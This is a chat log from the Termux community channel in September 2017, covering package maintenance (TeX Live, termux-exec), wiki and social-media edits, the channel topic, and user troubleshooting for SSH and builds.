2017-09-15 03:48:01	live_the_dream	traditionally /usr/bin/python is python2 ?

2017-09-15 03:48:42	frumpylava	Grimler: Another way I can think of is to extract tlmgr to it's own packag. Then tlmgr and texlive-full could conflict with each other (like vim and vim-python) so that only one can be installed at the same time. Do we really need the tlmgr when we installed all of texlive?

2017-09-15 03:48:55	Grimler	frumpylava: you mean something like `for [ every line in texlive.tlpdb ]; do echo 'echo $line >> $TERMUX_PREFIX/...../texlive.tlpdb' >> postinst; done`?

2017-09-15 03:49:26	Grimler	tlmgr shouldn't be needed for texlive-full (but could be useful for keeping packages up to date)

2017-09-15 03:50:29	frumpylava	Grimler: Wouldn't the packages be able to be kept up to date with regular rebuilds of texlive-full? Altough it would be annoying to have to update that all the time, since it would be huge.

2017-09-15 03:50:47	frumpylava	live_the_dream: That's a really hard question.

2017-09-15 03:51:05	Grimler	moving tlmgr to another package sounds like a solution, then it includes one version of texlive.tlpdb while texlive-full includes the full one

2017-09-15 03:51:19	live_the_dream	i make the lib check a shell env vsriable

2017-09-15 03:51:22	live_the_dream	could

2017-09-15 03:52:00	Grimler	the packages in texlive-full would match the packages in the frozen release of texlive, in this case the release from 2017-05-24

2017-09-15 03:52:12	live_the_dream	but yewh all /usr/bin/commands map to $PREFIX/bib

2017-09-15 03:52:17	live_the_dream	now

2017-09-15 03:53:27	live_the_dream	if i can get termux app to do soemthing ...

2017-09-15 03:53:28	Grimler	Auxilus: The problem isn't that the patch files etc conflict, it is that the files that are included in the package conflict. So the different lists in texlive (packages/texlive/*.list) need to be changed

2017-09-15 03:54:49	frumpylava	live_the_dream: I think you should keep python=python3 (but a env var sounds also good), as it would be very confusing otherwise.

2017-09-15 03:55:23	frumpylava	live_the_dream: By the way, where is the source code of that package/all your packages?

2017-09-15 03:55:51	live_the_dream	hsven't updated it yet

2017-09-15 03:56:25	frumpylava	live_the_dream: Yeah, but of the current version?

2017-09-15 03:56:51	live_the_dream	in a few minutes

2017-09-15 03:57:14	frumpylava	And what about the build scripts of all packages in the pointless repo?

2017-09-15 04:00:10	live_the_dream	oh right

2017-09-15 04:01:15	frumpylava	Grimler: Using the Frozen releases would probably be best, since I assume they'll be more stable.

2017-09-15 04:02:52	Grimler	frumpylava: yeah you're right. I updated https://github.com/termux/termux-packages/issues/1456 with this "project"

2017-09-15 04:05:59	live_the_dream	updated gcc_termux/libandroid-fixshebang.c frumpylava

2017-09-15 04:06:01	frumpylava	Grimler: That's great. I'm looking forward to texlive being easier. The people who can afford the space all probably want all packages anyway. I know I do.

2017-09-15 04:06:40	live_the_dream	and fixedshe package

2017-09-15 04:06:45	live_the_dream	on the repo

2017-09-15 04:09:14	frumpylava	live_the_dream: Cool thanks. How would I go about building my own fixedseh*.deb?

2017-09-15 04:10:54	live_the_dream	i guess i could make a repo kind of tired right now do it a bit lster its just a script you get with the package

2017-09-15 04:11:27	frumpylava	live_the_dream: That would be cool thanks.

2017-09-15 04:15:17	frumpylava	live_the_dream: Another question: Could this not also be added to the main termux repo?

2017-09-15 04:19:20	live_the_dream	yeah

2017-09-15 04:19:31	live_the_dream	no reason not to

2017-09-15 05:02:05	frumpylava	live_the_dream: I cleaned up the fixedshe script, so it would work if no ~/.termux/shell is available and have written a short makefile for it. If you create a new empty repository for it I can create a pull request for it all. After that I can try to add it to the main termux repo.

2017-09-15 05:05:26	frumpylava	That method is seriously cool.

2017-09-15 07:28:47	frumpylava	live_the_dream: I created a repository for fixedshe (https://github.com/Neo-Oli/fixedshe) for testing and have the package script ready and working. If you create a repository I will create a pull request with my changes to get it all working and can create a pull request at termux-packages.

2017-09-15 09:49:32	gitter	(PaezRice) maybe this has already been reported, however running `packages help` tells me to run `pkg install termux-tools`, but termux-tool is already installed and updated

2017-09-15 09:51:34	frumpylava	@PaezRice The "Packages" script has been removed recently, but it's entry hasn't been removed from the "command-not-found" list.

2017-09-15 11:58:46	nm0i	frumpylava: that was not my question, but thanks. Though I'd rather myself have platform-independent scripts instead.

2017-09-15 12:54:21	g093	https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-15 14:10:34	g093	cpanm Net::HTTP failed! https://github.com/termux/termux-packages/issues/1519

2017-09-15 14:57:32	RainMan	Hello

2017-09-15 15:00:24	RainMan	fggd

2017-09-15 17:26:26	gitter	(its-pointless) Qp

2017-09-15 18:03:38	g093	ZEFRAM/Net-HTTP-Tiny-0.002.tar.gz

2017-09-15 18:03:38	g093	  ./Build install  -- OK

2017-09-15 18:03:54	g093	reports OALDERS/Net-HTTP-6.17.tar.gz

2017-09-15 18:04:33	g093	Why doesn't `cpan Net::HTTP` work?

2017-09-15 18:08:04	g093	Getting `cpan Net::HTTP` to work might enable the biber build on device @Grimler

2017-09-15 19:32:56	Grimler	g093: yeah it would be great if someone could find a good way to install perl modules ;)

2017-09-15 19:40:45	g093	doesn't fix biber after --force 

2017-09-15 19:40:46	g093	https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-15 19:42:01	g093	Grimler: What's Perl's problem in Termux?

2017-09-15 19:49:03	g093	frumpylava: ur da wiki eggzpert, cn u fix https://en.m.wikipedia.org/w/index.php?search=Termux please?

2017-09-16 05:39:05	u0_a149	hello

2017-09-16 07:11:15	Anath	hi all, found "irc_syncbot" binary on Termux. Does anyone know what it does?

2017-09-16 09:56:24	BrainDamage	http://www.nbu.gov.sk/skcsirt-sa-20170909-pypi/

2017-09-16 13:32:16	gitter	(Auxilus) frumpylava : https://wiki.termux.com/wiki/Text_Editors#Vim

2017-09-16 13:38:14	frumpylava	@Auxilus Oh god. that's all kinds of wrong

2017-09-16 13:38:58	gitter	(Auxilus) I dont think we need two screenshots...

2017-09-16 13:41:08	frumpylava	or emojis and external search links

2017-09-16 13:41:43	gitter	(Auxilus) Yeah..

2017-09-16 13:41:56	frumpylava	and it also sais apt install instead of pkg

2017-09-16 13:42:01	gitter	(Auxilus) Ux gotta do some work on what to add what what not..

2017-09-16 13:42:15	gitter	(Auxilus) *and what not

2017-09-16 13:43:55	frumpylava	Would you mind fixing it, please? I am not near my computer at the moment or anytime soon.

2017-09-16 13:44:17	gitter	(sdrausty) flumpylava : @Auxilus can you please put Termux 💪🙂 Sweet up at wikipedia?

2017-09-16 13:44:30	gitter	(sdrausty) https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-16 13:45:12	gitter	(sdrausty) We could make a separate page for vimtutor g other tutors.

2017-09-16 13:45:20	gitter	(Auxilus) @sdrausty i think current termux wiki is hosted on private surver, so it has no link to en.m.wikipedia.org

2017-09-16 13:45:29	gitter	(sdrausty) External search links are important imho

2017-09-16 13:45:53	gitter	(sdrausty) @Auxilus can you post at wikipedia?

2017-09-16 13:46:07	gitter	(Auxilus) External links are important when you provide 'em as to give extra info

2017-09-16 13:46:40	gitter	(Auxilus) I dont have administrative access to main_page

2017-09-16 13:46:46	gitter	(sdrausty) They are info in themselves if the link is constructed correctly.

2017-09-16 13:47:03	gitter	(Auxilus) Maybe frumpylava can copy the main_page and post it to Wikipedia.org

2017-09-16 13:47:17	gitter	(sdrausty) Neither do I.

2017-09-16 13:47:33	frumpylava	That would get deleted so fast at wikipedia

2017-09-16 13:47:57	gitter	(sdrausty) frumpylava : why do you think that?

2017-09-16 13:48:40	frumpylava	Because it isn't in the style of a wikipedia article.If one were to be added it would need to be written from scratch.

2017-09-16 13:48:56	gitter	(sdrausty) And if it does get deleted, that can always be appealed.

2017-09-16 13:49:35	frumpylava	but they would be right to delete it.

2017-09-16 13:49:46	gitter	(Auxilus) Yeah but only main page will be hosted at Wikipedia.org

2017-09-16 13:49:54	gitter	(Auxilus) And other pages at termux.com

2017-09-16 13:50:01	gitter	(Auxilus) That'd be wiered

2017-09-16 13:50:14	gitter	(sdrausty) frumpylava : you have the wiki database. You can always trim it into a nice article for wikipedia.

2017-09-16 13:50:32	gitter	(sdrausty) frumpylava:

2017-09-16 13:51:18	gitter	(sdrausty) "but they would be right to delete it." How so? The site is jammed with linux and similar.

2017-09-16 13:51:30	frumpylava	But the wiki only contains help about termux. That is not what goes im a wikipedia article. Just look at wikipesia articles of other software

2017-09-16 13:52:16	gitter	(sdrausty) Even a short stub article about Termux 💪🙂 Sweet would be better than nill.

2017-09-16 13:52:26	frumpylava	You're welcome to try, You can always view the source of the main page, even if it is protected.

2017-09-16 13:52:29	gitter	(sdrausty) https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-16 13:52:59	frumpylava	A short article describing termux would be fantastic.

2017-09-16 13:54:16	gitter	(sdrausty) Do it then frumpylava. All you want to do is to trim the information you already have.

2017-09-16 13:54:48	gitter	(Auxilus) @sdrausty have you tested all those editors?

2017-09-16 13:55:04	gitter	(sdrausty) Have you @Auxilus ?

2017-09-16 13:55:22	gitter	(sdrausty) Do any of them not work?

2017-09-16 13:55:44	gitter	(Auxilus) I'm trying em atm

2017-09-16 13:56:54	gitter	(sdrausty) I know imagemagick has problems https://github.com/termux/termux-packages/issues/1314

2017-09-16 13:58:04	gitter	(Auxilus) Joe fails

2017-09-16 13:58:28	gitter	(Auxilus) @sdrausty you got like 12 image editors

2017-09-16 14:01:13	gitter	(Auxilus) https://wiki.termux.com/wiki/Sound_Editors

2017-09-16 14:04:08	gitter	(sdrausty) Joe works like a charm aarch64 What arch ru on @Auxilus ?

2017-09-16 14:04:43	gitter	(Auxilus) Im on aarch64 too

2017-09-16 14:05:09	gitter	(Auxilus) @sdrausty if it works on termux then you must consider adding extra information and screenshot

2017-09-16 14:07:13	gitter	(sdrausty) I do not enjoy captchas @Auxilus

2017-09-16 14:07:57	gitter	(Auxilus) 😰

2017-09-16 14:09:45	gitter	(sdrausty) I'm not very fond of joe either.

2017-09-16 16:17:38	live_the_dream	fuck me it didn't crash over night

2017-09-16 16:29:06	frumpylava	live_the_dream: What didn't crash?

2017-09-16 16:31:32	live_the_dream	my computer

2017-09-16 16:31:56	live_the_dream	its been constantly crashing during idle periods

2017-09-16 16:32:15	live_the_dream	its what has been annoying me for weeks

2017-09-16 16:32:51	frumpylava	That's a very weird problem.

2017-09-16 16:33:55	frumpylava	hmm... I wonder what kind of processes wait for long idle times. Are you doing any kind of Folding@Home?

2017-09-16 16:35:49	frumpylava	For a long time I had termux closing itself almost every night. It turned out it was just another app that was hovering up all the ram.

2017-09-16 16:41:22	g093	frumpylava: Can you change ChromeOS to Chrome on the Main Page please?

2017-09-16 16:41:52	g093	Android is an OS too, but it's not AndroidOS.

2017-09-16 16:42:51	frumpylava	g093: But the OS is called "Chrome OS" https://en.wikipedia.org/wiki/Chrome_OS

2017-09-16 16:42:52	frumpylava	Chrome is a browser

2017-09-16 16:43:40	g093	right "Chrome OS" not ChromeOS

2017-09-16 16:44:13	g093	Termux is a terminal emulator and Linux environment on Android and Chrome.

2017-09-16 16:44:16	g093	or

2017-09-16 16:44:43	frumpylava	g093: I changed it to "Chrome OS"

2017-09-16 16:45:00	g093	then u av grammer tnx

2017-09-16 16:45:09	g093	OS singular

2017-09-16 16:45:55	g093	maybe OSes?

2017-09-16 16:46:07	g093	OSs

2017-09-16 16:46:24	g093	neither is great

2017-09-16 16:46:34	frumpylava	maybe "for Android and Chrome OS" instead of "on"

2017-09-16 16:46:40	g093	ok

2017-09-16 16:47:02	frumpylava	Like this?

2017-09-16 16:48:00	g093	Termux is a terminal emulator and Linux environment for Android and Chrome OS.

2017-09-16 16:48:04	g093	much better

2017-09-16 16:48:20	g093	a good improvement

2017-09-16 16:48:31	g093	thank you frumpylava

2017-09-16 16:48:54	frumpylava	I also think we don't need to link to Facebook. At least not on the main page, since that isn't really active and hasn't had a post since 2015. What do you think g093?

2017-09-16 16:49:25	g093	i noticed facebook isn't very active. Why?

2017-09-16 16:49:57	g093	https://wiki.termux.com/wiki/Contact

2017-09-16 16:51:38	gitter	(sdrausty) I gave https://m.facebook.com/termux/ a like the other day.

2017-09-16 16:51:50	frumpylava	g093, @Auxilus: I created a draft page for the main page. If you want to do changes to it you can do it there and then I can move it to the main page https://wiki.termux.com/wiki/Draft:Main_Page

2017-09-16 16:52:18	gitter	(sdrausty) Who is in charge of https://m.facebook.com/termux/ ?

2017-09-16 16:52:23	frumpylava	g093: I believe you had some ideas on how to restructure the main page (moving the faq, less clutter)

2017-09-16 16:53:04	gitter	(sdrausty) Thanks for putting up the drafts page! We are going to have fun 😀

2017-09-16 16:53:23	frumpylava	@sdrausty: ¯\_(ツ)_/¯ fornwall probably

2017-09-16 16:55:27	gitter	(Auxilus) frumpylava : sure..

2017-09-16 16:55:44	g093	@fornwall can you update facebook plz

2017-09-16 16:56:18	g093	Facebook now has 2 billion monthly users…

2017-09-16 16:56:44	g093	https://techcrunch.com/2017/06/27/facebook-2-billion-users/

2017-09-16 16:56:55	live_the_dream	frumpylava: its ryzen and its a known issue

2017-09-16 16:57:01	live_the_dream	linux

2017-09-16 16:58:23	frumpylava	live_the_dream: aww that sucks

2017-09-16 17:45:36	live_the_dream	good news i found solution... bad news its a shit one

2017-09-16 18:39:47	gitter	(sdrausty) frumpylava : can you add the help wanted, discussion and enchantment labels to https://github.com/termux/termux-packages/issues/202 Package request: povray3.1g please?

2017-09-16 19:30:16	gitter	(fornwall) I'm not that much of a facebook user myself, but I agree that facebook.com/termux could benefit a lot of users if maintained! anyone interested in being an editor of the termux facebook page (updating it with information and links, moderating it, and perhaps make it pretty)?

2017-09-16 19:37:27	g093	https://en.m.wikipedia.org/w/index.php?search=Termux

2017-09-16 19:37:50	g093	why don't we have any results?

2017-09-16 19:37:54	g093	none

2017-09-16 19:37:56	g093	nill

2017-09-16 19:38:13	g093	like play-audio null

2017-09-16 19:38:15	g093	?

2017-09-16 19:39:42	gitter	(sdrausty) @fornwall yes I don't use Facebook much but

2017-09-16 19:40:08	gitter	(sdrausty) https://m.facebook.com/sdrausty

2017-09-16 19:40:49	gitter	(sdrausty) It will be a pleasure to work on it and increase awareness of Termux 💪🙂

2017-09-16 19:42:35	gitter	(sdrausty) @fornwall have you had a chance to look at ://github.com/termux/termux-packages/issues/202

2017-09-16 19:42:38	gitter	(sdrausty) https

2017-09-16 19:42:50	gitter	(fornwall) @sdrausty great! I've added you as an editor of facebook.com/termux now!

2017-09-16 19:43:10	gitter	(sdrausty) Wow! Thanks!

2017-09-16 19:44:15	gitter	(sdrausty) What do I do? Hopefully I will fi..

2017-09-16 19:46:25	gitter	(sdrausty) I will *we will

2017-09-16 19:48:06	gitter	(sdrausty) https://m.facebook.com/editorcommunity/

2017-09-16 19:49:17	gitter	(fornwall) @sdrausty I don't know exactly - perhaps make a post with some general information and encourage discussion there

2017-09-16 19:51:01	gitter	(sdrausty) I am basking in success and I wish to share this fealing.

2017-09-16 19:53:30	gitter	(fornwall) the issue with ruby segfaulting on 32-bit arm has now been fixed. interestingly, replacing `-Oz` with `-Os` in CFLAGS when building ruby fixed it

2017-09-16 19:55:00	live_the_dream	weird

2017-09-16 19:56:22	gitter	(sdrausty) https://plus.google.com/communities/107847486351510098159 about Termux 💪🙂 Sweet is still up at Android G+

2017-09-16 19:57:37	gitter	(sdrausty) https://plus.google.com/109614420080028230010/posts/EQFhb4YAzxc

2017-09-16 20:02:10	gitter	(sdrausty) Can you please change the IRC banner to read simply, "This channel is mirrored" or similar? This is in reference to the one of the wiki issues @fornwall

2017-09-16 20:04:06	gitter	(fornwall) @sdrausty you mean remove the `Terminal emulator and Linux environment for Android` part in order to shorten the title?

2017-09-16 20:04:10	gitter	(sdrausty) It has to do with linking this page into our wiki.termux.com https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog

2017-09-16 20:07:05	gitter	(sdrausty) Shortening "Channel mirrored at https://gitter.im/termux/termux" to "Channel Mirrored" @fornwall

2017-09-16 20:07:33	gitter	(sdrausty) Terminal emulator and Linux environment for Android

2017-09-16 20:07:38	gitter	(sdrausty) to read

2017-09-16 20:07:53	gitter	(sdrausty) Terminal Emulator and Linux Environment for Android

2017-09-16 20:08:15	gitter	(sdrausty) minor changes in capitalization

2017-09-16 20:08:24	gitter	(fornwall) ah, you meant to remove the specific link, as a signal that the channel is mirrored at multiple locations?

2017-09-16 20:08:34	gitter	(sdrausty) ok

2017-09-16 20:09:25	gitter	(sdrausty) "Mirrored Elsewhere" comes to mind, or simply "Mirrored" ?

2017-09-16 20:10:35	gitter	(sdrausty) "This Channel Is Mirrored at Multiple Locations in the Internet"

2017-09-16 20:11:03	gitter	(sdrausty) "This Channel Is Mirrored at Multiple Locations in The Internet"

2017-09-16 20:11:20	gitter	(sdrausty) "This Channel Is Mirrored at Multiple Locations"

2017-09-16 20:11:52	gitter	(sdrausty) Looks terrific ☺👍

2017-09-16 20:13:13	--	Mode #termux [+o fornwall] by ChanServ

2017-09-16 20:16:09	g093	"This Channel Is Mirrored"

2017-09-16 20:17:34	--	fornwall has changed topic for #termux from "termux.com | Terminal emulator and Linux environment for Android | Channel mirrored at https://gitter.im/termux/termux" to "termux.com | Terminal emulator and Linux environment for Android | This channel is mirrored"

2017-09-16 20:18:04	@fornwall	done ("This channel is mirrored" is hopefully enough)

2017-09-16 20:18:43	g093	looks sweet

2017-09-16 20:20:32	g093	:)

2017-09-16 20:21:28	--	Mode #termux [-o fornwall] by ChanServ

2017-09-16 20:49:00	rods-tab3	Mirrored where ?

2017-09-16 20:58:49	rods-tab3	termux.com has no reference to https://termux.com/help.html   -- SAD

2017-09-16 21:03:51	g093	rods-tab3: https://gitter.im/termux/termux

2017-09-16 21:03:57	g093	&

2017-09-16 21:04:12	g093	elsewhere

2017-09-16 21:04:36	g093	like

2017-09-16 21:04:53	g093	https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog

2017-09-16 21:05:15	g093	its not complete though

2017-09-16 21:05:55	g093	iv tried extracting from gitter, but i got stumped at termux@gitter id

2017-09-16 21:06:41	g093	rods-tab3: create a pull request please don't be sad

2017-09-16 21:08:22	g093	https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog is logged intermittently from freenode via Termux on smartphone and Github:)

2017-09-16 21:12:47	rods-tab3	so what was wrong with the previous /topic ?   ...  that didn't need fixing.

2017-09-16 21:13:28	g093	hope fully you will see it at wiku.termux.com soon rods-tab3

2017-09-16 21:14:45	g093	One of Ux's links didn't stand the test of time... 

2017-09-16 21:14:58	g093	@wiki.termux.com

2017-09-16 21:17:45	gitter	(sdrausty) The new IRC motd is much better @fornwall  It encompasses one or more. That's great news ☺

2017-09-16 21:19:22	gitter	(sdrausty) It's kinda funny that many IRC clients are also mirrors by simply logging, "What did I say the day before?"

2017-09-16 21:24:39	gitter	(sdrausty) Thank you⚜

2017-09-16 22:44:40	g093	$ play-audio 2001/2001\ -\ A\ Space\ Odyssey\ -\ The\ Dawn\ of\ Man-ypEaGQb6dJk.mkv

2017-09-16 22:49:20	g093	https://user-images.githubusercontent.com/27742457/30513514-90237db4-9ad2-11e7-9a59-fd7c97c1c522.jpg

2017-09-16 22:55:27	gitter	(sdrausty) https://m.youtube.com/watch?v=41d_3pXw51s

2017-09-16 23:13:11	g093	$ play-audio A\ Horse\ With\ No\ Name\ -\ America\ \(Lyrics\)-CpSdePGgVyQ.mkv

2017-09-16 23:26:36	u0_a138	jdkdkdk

2017-09-16 23:26:39	u0_a138	kdkdkkd

2017-09-16 23:26:43	u0_a138	jwjwksdnffndrcjdkkskemf

2017-09-17 00:36:10	g093	lol

2017-09-17 00:36:32	g093	comments please https://wiki.termux.com/wiki/Disclaimer 

2017-09-17 01:53:35	gitter	(Auxilus) @timwr

2017-09-17 01:53:39	gitter	(Auxilus) Just found

2017-09-17 01:53:41	gitter	(Auxilus) This script is a POC for injecting metasploit payloads on arbitrary APKs

2017-09-17 01:53:41	gitter	(Auxilus)

2017-09-17 01:53:41	gitter	(Auxilus) Authored by timwr, Jack64 , developed by xC0d3rZ

2017-09-17 01:56:15	g093	@Auxilux is this https://wiki.termux.com/wiki/Disclaimer what you were talking about?

2017-09-17 01:56:43	g093	We are not responsible for any damage that happens to you or your phone, incidental or otherwise; Or something similar happens 'cause, i.e. someone's knocking at your front door and the helicopters are flying nearby, or similar arising from your use of Termux on device.

2017-09-17 01:57:34	gitter	(Auxilus) Also put ' we are not responsible if you you accidentally brick your device'

2017-09-17 01:58:28	g093	brick is there as your phone and incidental damages

2017-09-17 01:59:01	g093	besides, howr u gonna brick without root?

2017-09-17 01:59:15	gitter	(Auxilus) With root ofc

2017-09-17 01:59:36	g093	therez no root in Termux yet

2017-09-17 01:59:51	g093	roit *root package

2017-09-17 02:00:16	gitter	(Auxilus) We have `tsu`

2017-09-17 02:00:36	g093	how do u like https://wiki.termux.com/wiki/Draft:Main_Page

2017-09-17 02:00:58	g093	i put alota time and effort into it

2017-09-17 02:01:27	g093	FAQ git bumped to #3

2017-09-17 02:01:54	gitter	(Auxilus) I liked welcome to termux secn

2017-09-17 02:01:55	g093	Disclamer hit the front page, below Contacts

2017-09-17 02:02:12	gitter	(Auxilus) But i think we dont need a screenshot for addon section

2017-09-17 02:02:21	gitter	(Auxilus) Welcome secn is awsome tho..

2017-09-17 02:02:51	g093	I think we should have at least one picture on the Main Page

2017-09-17 02:03:32	gitter	(Auxilus) Yeah

2017-09-17 02:03:49	gitter	(Auxilus) Thats would be in welcome to termux section

2017-09-17 02:05:00	g093	aAuxilus its good to hear your opinion tnx

2017-09-17 02:05:40	gitter	(Auxilus) 👍

2017-09-17 02:18:45	g093	Yes, we have `tsu` but it doesn't root.

2017-09-17 02:19:35	g093	Package requests `termux-make-root` & `termux-make-unroot`

2017-09-17 02:19:54	gitter	(Auxilus) No i didn't mean tsu roots..

2017-09-17 02:20:02	g093	i know

2017-09-17 02:20:30	gitter	(Auxilus) I mean if you have rooted device then you can exec root commands using tsu

2017-09-17 02:20:41	g093	id be nice to have make root package in Termux

2017-09-17 02:21:13	g093	third party root thumbs down

2017-09-17 02:21:36	gitter	(Auxilus) Ye

2017-09-17 02:21:52	gitter	(Auxilus) I'd like to have that too!

2017-09-17 02:24:28	g093	i wonder if @fornwall would add it to the main repo once it's packaged

2017-09-17 02:30:12	g093	@Auxilus Have you heard of Povray? https://github.com/termux/termux-packages/issues/202

2017-09-17 02:32:18	g093	Code for obtaining root permission might be at https://github.com/topjohnwu/Magisk 

2017-09-17 02:36:08	gitter	(Auxilus) g093 does povray work in termux ( looks like an awesome package)

2017-09-17 02:37:53	g093	Povray is amaxing and that is what issue 202 is for. Hopefully to get Povray on Termux!

2017-09-17 04:58:39	gitter	(suryapoo) Welcome to Termux!

2017-09-17 04:58:39	gitter	(suryapoo)

2017-09-17 04:58:39	gitter	(suryapoo) Online help:     https://termux.com/help

2017-09-17 04:58:39	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59be393ecfeed2eb651c2fe8]

2017-09-17 04:59:06	gitter	(suryapoo) Hi guys the prompt is stuck at rails generate controller hi since the last 6 mins

2017-09-17 05:48:45	gitter	(Auxilus) @fornwall

2017-09-17 05:48:54	gitter	(Auxilus) https://github.com/termux/termux-packages/issues/715#issuecomment-330032364

2017-09-17 05:49:34	gitter	(Auxilus) Is this similar to https://github.com/termux/termux-packages/issues/1520 ?

2017-09-17 05:59:29	gitter	(Auxilus) frumpylava : there is something wiered with the wiki

2017-09-17 05:59:56	gitter	(Auxilus) Pictures and wiki content is overlapping

2017-09-17 05:59:58	gitter	(Auxilus) https://wiki.termux.com/wiki/Metasploit_Framework

2017-09-17 06:06:59	frumpylava	@Auxiuls Can't see it. Can you send me a screenshot?

2017-09-17 06:07:43	gitter	(Auxilus) Sure..

2017-09-17 06:09:06	gitter	(Auxilus) Here..

2017-09-17 06:09:08	gitter	(Auxilus) https://m.imgur.com/a/xktmA

2017-09-17 06:11:17	gitter	(Auxilus) You see?

2017-09-17 06:12:07	frumpylava	Yeah. Maybe you can switch to the mobile version? I'm going to switch mediawiki theme to a responsive one, as soon as I find a good one.

2017-09-17 06:12:57	gitter	(Auxilus) Okay 👍

2017-09-17 06:28:12	gitter	(HJarausch) Hi, is it possible to use prog like emacs with X11? Is it possible to "connect to" XServer XSDL? Many thanks for a hint, Helmut

2017-09-17 06:33:10	live_the_dream	it is possible @HJarausch but we don't want to start shipping x11 stuff which since its a lot of work. unless you mean sonething ekse

2017-09-17 06:34:04	live_the_dream	iv actually run x11 stuff on termux before. its a lot of work for n9t much gain

2017-09-17 06:35:50	gitter	(HJarausch) One would "only" need the X11 client side. It would make much sense on a Full HD tablet of 10 inches and more.

2017-09-17 06:38:42	BrainDamage	you need to generally build a crapload of libs to support X programs

2017-09-17 07:08:30	gitter	(HJarausch) /quit

2017-09-17 09:24:48	ClockGen	How can I make widget start shell first, and then lauch something inside this shell? For example, I have zsh with oh-my-zsh and plugin, that autostarts tmux server and autoconnects any other sessions to it.

2017-09-17 09:26:13	ClockGen	But when launching any scripts from .shortcuts they are launched without shell, and if there is a way to access shell itself (in mc, for example) $SHELL variable is empty

2017-09-17 09:26:47	ClockGen	tmux detects zsh as my default shell correctly

2017-09-17 09:27:26	ClockGen	I've tried making scripts that pass command to a tmux session but it still being launched not in tmux for some reason

2017-09-17 10:45:53	ClockGen	More or less, figured it out, though had to use tons of crutches

2017-09-17 10:46:14	ClockGen	Another question: is there a way to suppress termux default message about exited process?

2017-09-17 10:46:40	ClockGen	When it says "Process completed - press enter"

2017-09-17 11:01:10	g093	https://m.facebook.com/termux/

2017-09-17 11:03:45	gitter	(Grimler91) ClockGen: see https://github.com/termux/termux-app/issues/56

2017-09-17 12:37:52	sdrausty	I am seeking topics for https://m.facebook.com/termux/ Success stories for this site are wanted. Suggestions requested please.

2017-09-17 13:08:09	sdrausty	https://plus.google.com/u/0/109614420080028230010/posts/NZJWHdqipUw

2017-09-17 16:27:41	gitter	(fornwall) there is now a `termux-exec` package available, which when installed allows `#!/bin/sh`, `#!/usr/bin/env` and likewise to work! after installation it won't affect the current session, but every future session should work without any setup

2017-09-17 16:28:51	gitter	(fornwall) it's does the `execve()` wrapping worked on by rkeene, @its-pointless, @Neo-Oli and others. please try it out and report any issues at https://github.com/termux/termux-exec

2017-09-17 16:34:40	gitter	(fornwall) sorry about the duplication with https://github.com/its-pointless/fixedshell @its-pointless and @Neo-Oli, I'll look into the differences

2017-09-17 17:19:01	sdrausty	Thank you @fornwall

2017-09-17 17:19:03	sdrausty	termux-exec/stable,now 0.2 aarch64 [installed]

2017-09-17 17:19:31	sdrausty	$ gcl https://github.com/seehuhn/moon-buggy

2017-09-17 17:19:41	sdrausty	$ cd moon-buggy

2017-09-17 17:20:03	sdrausty	$ ./autogen.sh

2017-09-17 17:20:13	sdrausty	$ ./configure

2017-09-17 17:20:18	sdrausty	$ make

2017-09-17 17:20:44	sdrausty	./moon-buggy.h:19:10: fatal error: 'curses.h' file not found

2017-09-17 17:20:57	sdrausty	wherez curses.h

2017-09-17 17:22:48	sdrausty	$ locate curses.h

2017-09-17 17:23:03	sdrausty	$ dpkg -S curses.h

2017-09-17 17:25:59	sdrausty	it used to be at $PREFIX/include/curses.h

2017-09-17 17:26:43	rmk0	'lo. i'm having a bit of trouble ssh'ing into my device and running a command. the command line is: ssh -p 8022 10.8.0.33 ls

2017-09-17 17:27:11	rmk0	"ls" is the command i want to execute. the command appears to hang and doesn't produce any output

2017-09-17 17:27:27	rmk0	if i don't specify a command, i can ssh in and get a working shell

2017-09-17 17:28:20	sdrausty	rmk0: https://github.com/termux/termux-packages/issues/1529

2017-09-17 17:28:28	 *	rmk0 eyes it

2017-09-17 17:28:52	sdrausty	do an `apt update && apr upgrade` to see if that helps.

2017-09-17 17:28:54	rmk0	ah, ok, thanks! let me see about updating...

2017-09-17 17:29:57	rmk0	it works. thanks very much

2017-09-17 17:30:27	rmk0	i've noted that it works in the bug report

2017-09-17 17:33:49	sdrausty	rmk0: great :)

2017-09-17 17:34:16	sdrausty	you're welcome rmk0

2017-09-17 17:37:32	sdrausty	it was my pleasure too i love serotonin and dopamine, especially when helping helps manifest

2017-09-17 17:37:59	sdrausty	a great :) fealing

2017-09-17 17:38:07	sdrausty	wherez ruby.h?

2017-09-17 18:32:18	sdrausty	ah

2017-09-17 18:32:21	sdrausty	$ au ncurses-dev

2017-09-17 18:33:23	sdrausty	$ cd moon-buggy/

2017-09-17 18:34:53	sdrausty	$ make

2017-09-17 18:35:13	sdrausty	$ ./moon-buggy

2017-09-17 18:39:36	gitter	(sdrausty) @Auxilus "frumpylava : there is something wiered with the wiki" i 🌟 concur, "There is something weird with the wiki, and it's `mediawiki`"

2017-09-17 18:44:37	gitter	(sdrausty) You can duplicate it from https://github.com/Neo-Oli with https://pages.github.com publish it. I think we would have much more fun with the wiki served through http://pages.github.com and pull requests and similar ☺

2017-09-17 18:46:08	gitter	(sdrausty) We have more than enough content at wiki.termux.com to put up a clone through your github pages github account @Neo-Oli

2017-09-17 18:47:47	gitter	(sdrausty) Github Pages Sans Mediawiki Please @Neo-Oli this should be a breeze (easy) to get going!

2017-09-17 19:04:18	g093	@fornwall can you switch it around:

2017-09-17 19:04:51	g093	Topic for #termux: termux.com | Terminal emulator and Linux environment

2017-09-17 19:04:51	g093	    for Android | This channel is mirrored

2017-09-17 19:05:43	g093	Topic for #termux: termux.com | This channel is mirrored | Terminal emulator and Linux environment

2017-09-17 19:05:43	g093	    for Android

2017-09-17 19:09:15	g093	Topic for #termux: termux.com | This channel is mirrored | Terminal

2017-09-17 19:09:15	g093	       emulator and Linux environment for Android and Chrome | Welcome Bienvenue Bienvenido Bienvenido स्वागत हे

2017-09-17 19:13:58	g093	желанный 환영 欢迎 ようこそ

2017-09-17 19:18:01	g093	Witamy أهلا بك خوش آمدی ברוך הבא

2017-09-17 19:18:21	g093	this is getting confusing

2017-09-17 19:18:52	g093	how to give Termux many human laguages? Any suggestions?

